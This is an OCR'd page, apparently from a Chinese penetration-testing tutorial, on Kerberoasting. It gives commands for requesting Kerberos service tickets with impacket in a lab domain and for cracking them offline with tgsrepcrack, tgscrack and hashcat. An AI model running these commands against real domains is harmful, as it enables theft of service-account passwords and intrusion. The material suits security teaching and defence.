 ### 离线破解服务票据

通过前面几步拿到了.kirbi 票据文件或 hashcat、John 能直接破解的文件。接下来就需要本地离线破解该服务票据了。

#### 1.kerberoast

Kerberoast 是用于攻击 Kerberos 实现的一些工具。该工具中的`tgsrepcrack.p`y 脚本可以对 mimikatz 导出的后缀为`.kirbi` 格式的票据进行爆破。

```
python2 tgsrepcrack.py pass.txt 1-40a10000-hack@SQLServer\~win7.xie.com\~1533\~MSSQL-XIE.COM.kirbi
```

![截图](ffcf2610a520a9cd3aef79a0a61680c2.png)

#### 2.tgscrack

该工具先将后缀为 kirbi 格式的票据转换为该工具能破解的格式，然后通过 go语言脚本指定密码文件进行爆破。

```
python2 extractServiceTicketParts.py 1-40a10000-hack@SQLServer\~win7.xie. com\~1533\~MSSQL-XIE.COM.kirbi > hash.txt
go run tgscrack.go -hashfile hash.txt -wordlist pass.txtS
```

![截图](d272cb7c99d5a8e55e7cb2f9a7903648.png)

#### 3.Hashcat

针对 impacket 和 Rebeus 请求的票据格式，可以使用 hashcat 来进行爆破。

```
hashcat -m 13100 hash.txt pass.txt --force
```

## Kerberoasting 抓包分析

我们通过使用 impacket 执行如下命令请求指定 SPN 服务票据。

```
python3 GetUserSPNs.py -request -dc-ip 10.211.55.4 xie.com/hack:P@ss1234 -outputfile hash.txt -request-user test
```

如图所示，使用 impacket 请求指定 SPN 的服务票据。

![截图](fb3f4e2222ecb7a325ad813ee8de17ec.png)
